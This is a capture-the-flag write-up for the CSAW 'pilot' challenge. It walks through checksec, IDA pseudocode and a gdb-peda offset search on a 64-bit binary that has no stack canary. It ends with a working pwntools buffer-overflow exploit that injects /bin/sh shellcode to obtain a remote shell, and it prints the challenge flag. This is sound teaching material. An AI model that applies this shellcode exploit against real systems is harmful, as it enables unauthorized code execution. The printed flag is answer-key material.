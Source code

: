 # pilot Writeup

![pilot](https://user-images.githubusercontent.com/41026969/50910626-2e3dd000-13fc-11e9-8ec9-58243f541a8e.png)

Ok so the description doesn't really give us much of anything, just an executable to work with and a ```nc``` address.
##### note: this ```nc``` address won't work for you since it's unique to each individual and requires vpn, check out links in my CTF page and look at the 365 CSAW link.

First, I did a few checks:

![pilot](https://user-images.githubusercontent.com/41026969/50911285-86290680-13fd-11e9-97aa-da7c1e90efe5.png)

To quickly explain what I did for every command I did:
```chmod +x pilot``` gives pilot permission to execute (to run). If we didn't, if we tried to run it it'd say "Permission Denied." ```file pilot``` checks what kind of file pilot is. We learn that this is a 64 bit executable which means 8 byte addresses (which may be handy to us further down). ```checksec pilot``` checks the properties of an executable. We see that the program does not utilize a [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries) (which essential checks to see if the stack has been changed for buffer overflow possibility). We then just test the program by passing a bunch of letters into it.

### Reverse engineering time
So I opened the file in IDApro 64 bit. In IDA, you can generate pseudocode by clicking ```view -> open subviews -> generate pseudocode```. Looking at the ```main``` function, I see this interesting piece of code:

![pilot](https://user-images.githubusercontent.com/41026969/51258592-56877a80-1978-11e9-844a-75a29572e2b8.png)

So from the code above, we can see a few things. 
1) The read() instruction is called
2) The function will take in 64 bytes (or characters) into standard input (in IDA, you can right click and convert the hex to decimal)
3) if what we inputted is less than or equal to 4 bytes, we see that ```[*]There are no commands....``` and ```[*]Mission Failed....``` will get printed out - that's not what I want...

I looked at the disassembly x86 instructions next, specifically looked at the main function again. I saw this:

![pilot](https://user-images.githubusercontent.com/41026969/51260034-60f74380-197b-11e9-8d90-c6202fc5fe3e.png)

This is the part where the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) takes place. We see that the function only allocates 32 bytes of space (I converted the hex value IDA says into decimal) into the stack, this is strange because even though the function prologue creates the stack with 32 bytes of memory, the buffer that we're inputting into is 64 bytes... This program is exploitable via buffer overflow.

### Exploiting
To know better about the program and the stack, I used gdb with [peda](https://github.com/longld/peda) (python exploit development assistance). peda is an excellent tool as it allows us to observe the stack and registers after the program exits and it includes some fancy color text. So first I run the program in gdb peda by typing ```gdb pilot```. Then I type ```r``` to run the program. 

So we need to find how many bytes we need to feed into the input before the return address is popped. To do this, when the program is run, I first input ```AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP```. We input this because when we examine the stack registers later, we will be able to see which letters have overflowed through the base pointer into the stack pointer. Here's a picture of it below:

![pilot](https://user-images.githubusercontent.com/41026969/51324731-7337b700-1a39-11e9-8471-eed6010d64cb.png)

So if you didn't read the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) page in the beginning of this writeup here's a quick summary:

1) the return address is pushed onto the stack (so the function knows where to return after the function called is done)
2) the base pointer is pushed onto the stack
3) the stack pointer is made equal to the base pointer
4) the stack pointer is then subtracted by a set amount (depends on some stuff). The space that's made between the stack pointer and the base pointer is used to memory. This is the space in memory that we will overwrite and exploit

In the picture above the ```RBP``` stands for base pointer, and wee see it's: ```RBP: 0x4a4a4a4a49494949 ('IIIIJJJJ')```. Hence, it took from A (four times) to J (four times) to overwrite into the return address (total of 40 characters).

So we can write some shellcode that will execute to /bin/sh to get us a shell running as the host (pilot). Doing some researching we find shell code for 64 bit /bin/sh exploit [here](http://shell-storm.org/shellcode/files/shellcode-811.php).

Here is the code I came up with (also attached above):
```python
# Exploit for the pilot CSAW challenge

from pwn import *

session = remote("10.67.0.1", 30983)

session.recvuntil("[*]Location:")

address = session.recvuntil("\n")[:-1]

shellcode = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"

payload = shellcode + "A" * (40-len(shellcode)) + p64(int(address, 16)) 

print("Address: " + str(address))
print("total payload: " + str(payload))

session.sendline(payload)

session.interactive()
```
Walking through the code:

- I basically open a session to the address
- I start reading the adddress that's given from the program and store it into ```address``` then remove the new line character at the end
- the ```shellcode``` variable is from the link from googling
- to put together the payload, it's first the shellcode, then number of bytes times (40 minus length of shellcode) to make sure we don't over write too much. Then the last part is simply the 8 byte address (padded with 2 extra bytes at the end because the original address given is 6 bytes total) that was given from the program.
- we then just send the payload and set up interactive().

##### note: that nc address won't work (it's based on your CSAW365 account) and you need a vpn.

Running the code will come up with the flag:
```flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}```
